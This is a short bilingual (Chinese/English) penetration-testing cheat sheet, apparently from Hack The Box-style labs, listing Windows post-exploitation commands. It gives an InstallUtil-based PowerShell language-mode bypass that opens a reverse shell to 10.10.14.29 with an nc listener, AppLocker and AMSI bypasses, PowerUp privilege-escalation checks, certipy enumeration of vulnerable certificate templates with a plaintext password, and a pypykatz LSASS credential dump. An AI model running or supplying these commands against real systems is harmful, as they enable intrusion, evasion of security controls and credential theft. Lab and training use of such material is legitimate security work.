 
# Pen Testing Tips

- **查看 .lnk 文件指向的目标**
https://stackoverflow.com/questions/42762122/get-target-of-shortcut-lnk-file-with-powershell/42762873#42762873
```powershell
powershell -c "$sh = New-Object -ComObject WScript.Shell; $sh.CreateShortcut('.\FILE.lnk').TargetPath"
```

- **shell 语言限制绕过**
```powershell
$executioncontext.sessionstate.languagemode   (查看当前语言类型)
```
PSByPassCLM  -  https://github.com/padovah4ck/PSByPassCLM/tree/master   
拿到 Windwos VM 中 VS debug 调试，exe 文传输到靶机中，执行 ?
```powershell
nc -lvvp 2233

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.14.29 /rport=2233 /U c:\Users\amanda\Documents\PsBypassCLM.exe
```

- **AppLocker 限制绕过**
该 github 收集了绝大部分的 App Locker Bypass 的 Directory  , 可以尝试在里面执行二进制程序
https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md

- **PS Session 执行脚本报错 ： This script contains malicious content and has been blocked by your antivirus software.  (绕过)**
```
[+] 对于Evil-WinRM 的绕过方法
menu
Bypass-4MSI
```

- **枚举脚本**
https://github.com/PowerShellMafia/PowerSploit/tree/master
```powershell
~/tool/PowerSploit-master/Privesc/PowerUp.ps1
Invoke-AllChecks
(可疑服务 拥有可修改权限 滥用方式见下方 可修改服务二进制程序滥用)
```
**ADCS (易受攻击的证书模板) 枚举**
```bash
certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
```

- **DMP 文件 dump**
```bash
pypykatz lsa minidump lsass.DMP
```


# 横向移动
